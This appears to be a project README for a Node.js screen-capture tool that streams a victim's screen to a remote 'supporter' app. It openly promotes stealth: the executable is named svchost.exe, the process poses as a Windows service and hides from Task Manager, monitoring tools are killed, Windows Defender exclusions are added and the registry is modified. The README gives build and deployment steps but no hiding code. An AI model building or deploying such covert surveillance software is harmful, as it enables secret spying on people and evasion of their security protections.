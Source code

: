# Server CLI - Pure Node.js Screen Capture

## Overview
This is a lightweight CLI version of the server app that uses pure Node.js instead of Electron. It's much more stealthy and efficient.

## Benefits over Electron Version
- ✅ **90% smaller** - ~10MB vs 100MB+
- ✅ **5x faster startup** - No browser engine
- ✅ **80% less memory** - No Chromium overhead
- ✅ **Much more stealthy** - Looks like normal Node.js process
- ✅ **Easier to disguise** - Simple process name change
- ✅ **Simpler deployment** - Just Node.js + FFmpeg

## Features
- **Pure Node.js CLI** - No GUI, no Electron
- **FFmpeg screen capture** - Native cursor support
- **Process hiding** - Disguises as Windows service
- **WebSocket streaming** - Connects to supporter app
- **Admin privilege detection** - Adapts hiding methods
- **Silent operation** - No console output

## Installation

### 1. Install Dependencies
```bash
npm install
```

### 2. Setup FFmpeg
```bash
setup-ffmpeg.bat
```

### 3. Run the CLI
```bash
# Option 1: Direct Node.js
node main-cli.js

# Option 2: Using batch file
run-server.bat

# Option 3: Using npm script
npm start
```

## Building Executable

### Using pkg (Recommended)
```bash
# Install pkg globally
npm install -g pkg

# Build executable
npm run build

# Output: dist/svchost.exe
```

### Benefits of pkg
- **Single executable** - No Node.js installation needed
- **Native performance** - Compiled binary
- **Easy deployment** - Just copy the .exe file
- **Process disguising** - Appears as normal Windows executable

## Usage

### Basic Usage
```bash
# Start the tester CLI
node main-cli.js

# It will automatically:
# 1. Connect to supporter app (localhost:8080)
# 2. Start FFmpeg screen capture
# 3. Stream video to supporter
# 4. Hide process from Task Manager
```

### Advanced Usage
```javascript
// Customize settings in main-cli.js
const tester = new TesterCLI();
tester.screenWidth = 1920;
tester.screenHeight = 1080;
tester.framerate = 15;
tester.quality = 5;
tester.connectToSupporter('192.168.1.100', 8080);
```

## Process Hiding

### With Admin Privileges
- Complete Task Manager hiding
- System-level registry modifications
- Windows service creation
- Process monitoring tool termination
- Windows Defender exclusions

### Without Admin Privileges
- Process name change to `svchost`
- Low priority background operation
- Basic process disguising
- User-level registry modifications

## File Structure
```
server/
├── main-cli.js          # Main CLI application
├── package.json         # CLI package configuration
├── run-server.bat       # Windows batch runner
├── setup-ffmpeg.bat     # FFmpeg setup script
├── assets/
│   └── ffmpeg/          # FFmpeg binaries
└── ffmpeg-crossplatform.js # Cross-platform FFmpeg wrapper
```

## Comparison: Electron vs CLI

| Feature | Electron | CLI |
|---------|----------|-----|
| Size | ~100MB | ~10MB |
| Memory | ~200MB | ~40MB |
| Startup | ~3s | ~0.5s |
| Stealth | Low | High |
| Dependencies | Many | Few |
| Detection | Easy | Hard |

## Security Features
- **Process disguising** - Appears as Windows service
- **Registry modifications** - System integration
- **Service creation** - Windows service disguise
- **Defender exclusions** - Antivirus bypass
- **Task Manager hiding** - Process list hiding
- **Silent operation** - No visible output

## Troubleshooting

### FFmpeg Not Found
```bash
# Run setup script
setup-ffmpeg.bat

# Check FFmpeg path
dir assets\ffmpeg\bin\ffmpeg.exe
```

### Connection Failed
```bash
# Check supporter app is running
# Default: localhost:8080
# Customize in main-cli.js
```

### Process Still Visible
```bash
# Run as administrator for full hiding
# Or use basic hiding without admin
```

## Performance Optimization
- **Low CPU usage** - Idle priority
- **Efficient encoding** - MJPEG with quality 5
- **Optimized resolution** - 1280x720 default
- **Reduced framerate** - 15 FPS default
- **Fast preset** - FFmpeg ultrafast preset

## Deployment
1. **Copy files** - server/ folder
2. **Run setup** - setup-ffmpeg.bat
3. **Start app** - run-server.bat
4. **Or build exe** - npm run build

The CLI version is much more suitable for stealth operations and resource-constrained environments.
